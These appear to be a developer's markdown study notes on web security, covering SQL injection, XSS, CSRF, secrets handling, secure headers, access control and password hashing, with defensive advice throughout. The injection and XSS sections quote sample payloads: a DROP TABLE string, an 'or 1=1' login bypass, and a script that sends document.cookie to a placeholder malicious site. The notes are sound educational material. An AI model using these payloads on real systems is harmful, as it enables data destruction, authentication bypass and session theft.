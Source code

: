 # Security

## Important Topics

- injections
- 3rd party libraries
- logging
- HTTPS everywhere
- XSS & CSRF
- code secrets
- secure headers
- access control
- data management
- don't trust anyone
- authentication

## Injections

- injecting code elsewhere
  - most famous -> SQL injections
  - `''; DROP TABLE table_name; --`
  - `''; or 1=1--` -> for passwords
- images are injected into DOM after rendering
- `textnode` can help to textify and sanitise input

### How to avoid

- sanitise input (check inputs for expected inputs)
  - whitelist vs. blacklist
- parametrise queries (prepared statements)
  - pre-compile SQL statements
  - object relational mappers -> provide statements for us
- ORMs (object relational mappers) like Knex.js

## 3rd party libraries

- ensure that library is trustworthy
- check popularity (forks, stars, etc.) of package
- snyk is a tool to test node moudle dependencies

## Logging

- gather all information about user actions/behaviour
- **insufficient logging** can provide gap for hacker to take actions going unseen
- 2 packages for JS:
  - morgan (HTTP logger middleware)
  - winston (log everything)

## HTTPS everywhere

- SSL / TLS certificates
- https://letsencrypt.org/

## XSS & CSRF

### XSS - Cross-Side-Scripting

- allows attacker to execute script in client's server
- `window.location = 'new_bad_website?cookie='+ document.cookie`
- prevent through input sanitisation

### Cross Side Request Forgery

- create bad URL that has malicious code in it

### How to prevent

- sanitise inputs
- no `eval()`
- no `document.write()`
- [content security policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
- [secure + HTTPOnly cookies](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies)

## Code secrets

- environmental variables
  - `process.env.NODE_ENV` by default
  - can define `.env` file for environmental variables
    - variables start with `REACT_APP_`
- commit history
  - NEVER add config files / passwords to git repo

## Secure headers

- `npm install helmet` -> [helmet docu](https://github.com/helmetjs/helmet)
- on server side (usually for express.js)
- middleware
- [HTTP headers](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers)
- [HTTP header fields](https://www.tutorialspoint.com/http/http_header_fields.htm)

## Access control

- having restriction on what authenticated users are allowed to do
- **principal of least privilige**
- `cors` middleware important to security (Cross Origin Ressource Sharing)
  - need to establish cors white list
  - otherwise access is unrestricted

## Data management

- make sure back-ups are available
- limit sensitive data exposure
- encrypt data in transition (based on ressources)
- hashing tools (passwords)
  - bcrypt
  - scrypt
  - Aragon2
- encrypt DB (e.g. pgcrypto)
  - encrypt a few columns
